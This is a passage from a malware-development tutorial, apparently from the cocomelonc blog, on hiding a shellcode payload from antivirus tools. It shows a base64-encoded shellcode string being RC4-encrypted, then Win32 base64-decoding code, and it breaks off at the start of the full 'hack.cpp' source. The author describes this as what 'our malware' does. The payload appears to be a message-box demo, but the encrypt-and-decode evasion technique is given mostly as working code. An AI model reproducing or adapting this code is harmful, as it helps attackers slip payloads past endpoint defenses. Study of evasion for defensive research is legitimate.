 
```cpp
unsigned char* plaintext = (unsigned char*)"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii"
"1IYPkiLUiA+SItyUD5ID7dKSk0xyUg"
"xwKw8YXwCLCBBwckNQQHB4u1SQVE+SI"
"tSID6LQjxIAdA+i4CIAAAASIXAdG9IAd"
"BQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1"
"k0xyUgxwKxBwckNQQHBOOB18T5MA"
"0wkCEU50XXWWD5Ei0AkSQHQZj5B"
"iwxIPkSLQBxJAdA+QYsEiEgB0EFY"
"QVheWVpBWEFZQVpIg+wgQVL/4FhBWV"
"o+SIsS6Un///9dScfBAAAAAD5IjZX+"
"AAAAPkyNhQkBAABIMclBukWDVgf/"
"1UgxyUG68LWiVv/VTWVvdy1tZW93IQA9Xi4uXj0A";
unsigned char* key = (unsigned char*)"key";
unsigned char* ciphertext = (unsigned char *)malloc(sizeof(unsigned char) * 
strlen((const char*)plaintext));
RC4(plaintext, ciphertext, key, strlen((const char*)key), 
strlen((const char*)plaintext));
```

So in our malware we do the reverse process: first we decrypting it via `RC4` then decoding via `base64`. For base64 decoding process I used Win32 crypto API:      

```cpp
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

//...
//...
//...

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
  outLen = dstLen;
  fRet = CryptStringToBinary( (LPCSTR) src, srcLen, CRYPT_STRING_BASE64, 
  (BYTE * )dst, &outLen, NULL, NULL);
  if (!fRet) outLen = 0;  // failed
  return (outLen);
}

//...
```

Finally, we have full source code:      

```cpp
/*
hack.cpp
RC4 encrypt payload
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/08/16/malware-av-evasion-9.html
*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <windows.h>
#include <wincrypt.h>
#pragma comment (lib, "crypt32.lib")

int b64decode(const BYTE * src, unsigned int srcLen, char * dst, 
unsigned int dstLen) {
  DWORD outLen;
  BOOL fRet;
```